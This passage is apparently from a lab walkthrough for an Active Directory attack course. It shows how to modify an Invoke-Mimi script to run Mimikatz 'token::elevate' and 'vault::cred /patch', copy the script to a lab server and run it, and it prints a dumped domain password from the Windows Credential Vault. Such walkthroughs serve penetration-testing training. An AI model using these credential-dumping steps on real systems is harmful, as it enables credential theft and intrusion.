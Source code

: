 Here we find the credentials of the dcorp-adminsrv$, appadmin and websvc users.

#### Create Invoke-MimiEX-vault-std687.ps1

In addition, there are other places to look for credentials. Let's modify Invoke-MimiEx and look for credentials from the Windows Credential Vault. On the student VM:

* Create a copy of Invoke-Mimi.ps1 and rename it to Invoke-MimiEx-vault-std687.ps1.
* Open Invoke-MimiEX-vault-stdx.ps1 in PowerShell ISE (Right click on it and click Edit).
* Replace "Invoke-Mimi -Command '"sekurlsa::ekeys"' " that we added earlier with "`Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'` " (without quotes).

<figure><img src="../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

Copy Invoke-MimiEx-vault-stdx.ps1 to dcorp-adminsrv and run it. (It needs some minutes for copy process)

```powershell
Copy-Item C:\AD\Tools\Invoke-MimiEX-vault-std687.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```

```powershell
.\Invoke-MimiEX-vault-std687.ps1
```

```powershell
mimikatz(powershell) # vault::cred /patch
TargetName : Domain:batch=TaskScheduler:Task:{D1FE8F15-FC32-486B-94BC-471E4B1C1BB9} / <NULL>
UserName   : dcorp\srvadmin
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00004004
Credential : TheKeyUs3ron@anyMachine!
Attributes : 0
```
